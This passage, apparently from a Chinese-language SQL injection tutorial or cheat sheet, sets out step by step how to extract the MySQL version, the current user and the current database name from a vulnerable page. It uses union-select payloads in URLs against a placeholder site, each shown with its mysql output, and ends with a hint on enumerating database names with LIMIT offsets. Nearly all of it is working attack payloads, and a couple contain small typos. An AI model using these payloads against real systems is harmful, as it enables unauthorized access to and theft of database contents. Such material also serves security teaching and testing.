 web语句: http://www.test.com/sql.php?id=-1 union select 1, @@VERSION, 3, 4

数据库语句: select * from test where id=-1 union select 1, @@VERSION, 3, 4

```plain
mysql> select * from test where id=-1 union select 1, @@VERSION, 3, 4;
+----+--------+------+---------+
| id | test   | map  | content |
+----+--------+------+---------+
|  1 | 5.5.53 | 3    | 4       |
+----+--------+------+---------+
1 row in set (0.00 sec)
```

## 0x04 爆当前连接用户

web语句: http://www.test.com/sql.php?id -1 union select 1, user(), 3, 4

数据库语句: select * from test where id=-1 union select 1, user(), 3, 4;

```plain
mysql> select * from test where id=-1 union select 1, user(), 3, 4;
+----+----------------+------+---------+
| id | test           | map  | content |
+----+----------------+------+---------+
|  1 | root@localhost | 3    | 4       |
+----+----------------+------+---------+
1 row in set (0.00 sec)
```

## 0x05 爆当前连接的数据库

web语句: http://www.test.com/sql.php?id=-1 union select 1, database(), 3,

数据库语句: select * from test where id=-1 union select 1, database(), 3, 4;

```plain
mysql> select * from test where id=-1 union select 1, database(), 3, 4;
+----+------+------+---------+
| id | test | map  | content |
+----+------+------+---------+
|  1 | test | 3    | 4       |
+----+------+------+---------+
1 row in set (0.00 sec)
```

## 0x06 爆库名

注意: LIMIT 0 修改会显示其他库名

例如:

修改为0 就是出1库

修改为1 就是出2库
